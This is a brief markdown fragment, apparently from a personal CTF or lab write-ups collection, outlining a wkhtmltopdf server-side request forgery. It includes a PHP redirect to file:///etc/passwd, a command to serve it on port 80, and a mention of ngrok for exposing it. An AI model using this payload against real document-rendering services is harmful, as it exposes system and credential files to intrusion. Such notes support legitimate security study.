 [wkhtmltopdf-ssrf](https://exploit-notes.hdks.org/exploit/web/security-risk/wkhtmltopdf-ssrf/)


* index.php content

  ```
  <?php header("location:file:///etc/passwd");?>
  ```

* start php server
 
  ```
  php -S 0.0.0.0:80
  ```
* User ngrok to connect the dots

![image](https://github.com/reneanto/write-ups/assets/44943249/d0f0aa26-17c2-4cd6-870a-ce86214f41e3)
